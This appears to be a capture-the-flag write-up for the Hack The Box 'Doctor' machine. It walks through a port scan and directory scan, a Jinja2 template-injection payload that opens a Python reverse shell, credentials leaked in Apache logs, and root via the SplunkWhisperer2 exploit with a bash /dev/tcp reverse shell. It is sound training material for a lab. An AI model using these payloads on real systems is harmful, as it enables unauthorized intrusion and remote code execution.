

# Doctor

## Machine Info


## Recon

### nmap

- 80 http
- 8089 splunk

```console
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-title: splunkd
|_http-server-header: Splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
| http-robots.txt: 1 disallowed entry
|_/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X (95%), Crestron 2-Series (86%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:crestron:2_series
Aggressive OS guesses: Linux 5.0 (95%), Linux 5.0 - 5.5 (90%), Linux 5.0 - 5.4 (90%), Linux 4.15 - 5.8 (88%), Linux 2.6.32 (87%), Crestron XPanel control system (86%), Linux 5.3 - 5.4 (86%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- domain name found from 80 http html source


### path

- `http://10.10.10.209/`

```console
└─╼$ gobuster dir -u http://10.10.10.209/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.209/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.209/images/]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 19848]
/services.html        (Status: 200) [Size: 19848]
/contact.html         (Status: 200) [Size: 19848]
/about.html           (Status: 200) [Size: 19848]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.209/css/]
/blog.html            (Status: 200) [Size: 19848]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.209/js/]
/departments.html     (Status: 200) [Size: 19848]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.209/fonts/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

- `https://10.10.10.209:8089/`

```console
└─╼$ gobuster dir -u https://10.10.10.209:8089/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 64 -k --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.209:8089/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/services             (Status: 401) [Size: 130]
/robots.txt           (Status: 200) [Size: 26]
```

- `http://dorctors.htb`

```console
└─╼$ gobuster dir -u http://doctors.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://doctors.htb
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/home                 (Status: 302) [Size: 245] [--> http://doctors.htb/login?next=%2Fhome]
/register             (Status: 200) [Size: 4493]
/account              (Status: 302) [Size: 251] [--> http://doctors.htb/login?next=%2Faccount]
/login                (Status: 200) [Size: 4204]
/logout               (Status: 302) [Size: 217] [--> http://doctors.htb/home]
/archive              (Status: 200) [Size: 101]
/reset_password       (Status: 200) [Size: 3493]
/server-status        (Status: 403) [Size: 276]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

### doctors.htb

- web recon

```console
└─╼$ whatweb http://doctors.htb/login?next=%2F
http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```


- text upload available



- `/archive`: uploaded text's **title**


## Foothold

### SSTI

- **Judge** which template engine


- input different payload into title and content


- visit `/archive` and check the type of version


- Twig is for php, as this site is hosted on Python => **Jinja2**

- **SSTI Payload**:

```console
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.14\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}
```


- `curl http://doctors.htb/archive` -> trigger rshell

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.209] 40618
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
$ uname -a
Linux doctor 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:92:84 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.209/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:9284/64 scope global dynamic mngtmpaddr
       valid_lft 86397sec preferred_lft 14397sec
    inet6 fe80::250:56ff:feb9:9284/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### web -> shaun

**enum**

1. `id` -> group adm -> capability of reading log files `/var/log`

```console
╔══════════╣ Analyzing Interesting logs Files (limit 70)
-rw-r----- 1 root adm 21645460 Jan 25 15:10 /var/log/apache2/access.log
-rw-r----- 1 root adm 421 Jan 25 15:05 /var/log/apache2/error.log
```

2. splunk service: with root priv

```console
shaun@doctor:/opt/splunkforwarder/etc/users$ ps aux | grep -i splunk                      ps aux | grep -i splunk
root        1133  0.1  2.1 257468 85516 ?        Sl   14:36   0:04 splunkd -p 8089 start
root        1135  0.0  0.3  77664 13288 ?        Ss   14:36   0:00 [splunkd pid=1133] splunkd -p 8089 start [process-runner]
shaun     255710  0.0  0.0  17664  2780 pts/0    S+   15:41   0:00 grep --color=auto -i splunk
```

**cred leakage**

- `web@doctor:/var/log$ grep -B2 -A2 -ir passw . 2>/dev/null`


- **get credential**: `shaun:Guitar123`
  - `su shaun`: successfully login splunk service
  - `ip:8089/`: successfully login splunk service


### shaun -> root

- **LPE** Tool: [SplunkWhisperer2/PySplunkWhisperer2 at master · cnotin/SplunkWhisperer2 (github.com)](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)
- **POC**:

remote host

```console
└─╼$ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.14 --lport 1234 --username shaun --password Guitar123 --payload 'ping 10.10.14.14 -c 3'
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpbb0iq7js.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.14:1234/
10.10.10.209 - - [25/Jan/2024 22:50:06] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```

local host

```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:50:06.244823 IP 10.10.10.209 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
22:50:06.246160 IP 10.10.14.14 > 10.10.10.209: ICMP echo reply, id 1, seq 1, length 64
22:50:07.244914 IP 10.10.10.209 > 10.10.14.14: ICMP echo request, id 1, seq 2, length 64
22:50:07.244932 IP 10.10.14.14 > 10.10.10.209: ICMP echo reply, id 1, seq 2, length 64
22:50:08.245284 IP 10.10.10.209 > 10.10.14.14: ICMP echo request, id 1, seq 3, length 64
22:50:08.245301 IP 10.10.14.14 > 10.10.10.209: ICMP echo reply, id 1, seq 3, length 64
```

- **EXP**: rshell command: `bash -c "bash -i >& /dev/tcp/ip/port 0>&1"`

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.209] 55458
bash: cannot set terminal process group (1135): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@doctor:/# uname -a
uname -a
Linux doctor 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> 80 http 8089 splunk -> domain name enum -> doctor mesg service -> SSTI -> template engine judging -> Jinja2 -> SSTI to get web shell -> adm group priv -> log file enum: leake cred -> shuan shell + splunk service login -> LPE -> root shell
